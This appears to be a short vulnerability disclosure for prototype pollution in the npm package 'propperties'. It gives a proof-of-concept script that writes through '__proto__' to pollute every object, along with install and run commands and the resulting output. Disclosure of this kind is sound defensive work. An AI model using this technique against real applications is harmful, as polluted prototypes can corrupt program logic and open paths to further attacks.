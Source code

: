 # Description

Prototype Pollution in propperties

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var propperties = require("propperties")
var obj = {}
console.log("Before : " + {}.polluted);
propperties(obj,"__proto__.polluted","Yes! Its Polluted");
console.log("After : " + {}.polluted);
```

2. Execute the following commands in terminal:

```
npm i propperties # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
